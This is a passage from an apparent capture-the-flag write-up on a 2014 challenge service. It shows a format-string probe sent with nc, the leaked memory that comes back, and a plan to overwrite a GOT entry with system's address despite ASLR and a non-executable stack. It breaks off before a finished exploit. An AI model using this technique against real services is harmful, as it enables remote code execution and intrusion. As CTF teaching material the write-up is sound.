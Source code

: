 ```bash
0 : [Status: IDLE, To: bro, From: bro, Expires: 0, Contact: bro contact, Name: common bro]
```
Looking at function list we see an outsider: **asprintf**. What a hell this old C man doing among C++ youths?! 

Maybe a format string...

```bash
dog@ubuntu:~/ctf/ghostinshelcode2014$ nc localhost 5060
REGISTER x GITSSIP/0.1
To: %x%x
From: %x.%x
Expires: 0
Common Name: %x.%x
Contact: %x.%x

DIRECTORY * GITSSIP/0.1
Search: *GITSSIP/0.1 200 OK

GITSSIP/0.1 200 OK
0 : [Status: IDLE, To: 00, From: 10a75c0.10a77d0, Expires: 17461792, Contact: 312e3006.2e78250a, Name: 0.0]
```

Yay, we on the rigth path \\(^^)/

If you are not familiar with such type of vulnerabilities, view [this](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) paper

####How do we exploit it?
Stack is not executable, ASLR is enabled... So we can't just rewrite a stack pointer or something. Maybe rewrite a got.plt entry? 

For that we need an address in got.plt and an address of @system (yes, I'm that captain). The former is easy to get - given binary is static. The question is - which function to pick? Let's think about it later! Let's better find out @system address!

Okay, let's dump stack right before asprintf call and look for yummies inside it:

```bash
(gdb) x/200xg $rsp
0x7fffd292a208:	0x0000000000403166	0x000000000193c7d0
0x7fffd292a218:	0x000000000193c220	0x00000000312e3006
0x7fffd292a228:	0x000078252e78250a	0x0000000000000000
0x7fffd292a238:	0x0000000000000000	0x000000000193c738
0x7fffd292a248:	0x000000000193c720	0x4f54434552002a02
0x7fffd292a258:	0x00007ff062005952	0x000000000193c4e0
0x7fffd292a268:	0x0000000000000030	0x0000000000000000
0x7fffd292a278:	0x000000000193c6e0	0x000000000193c710
0x7fffd292a288:	0x000000000193c710	0x000000000193c202
0x7fffd292a298:	0x000000000193c202	0x000000000193c100
(it is soooo loooooong)
```

Now look where modules reside:
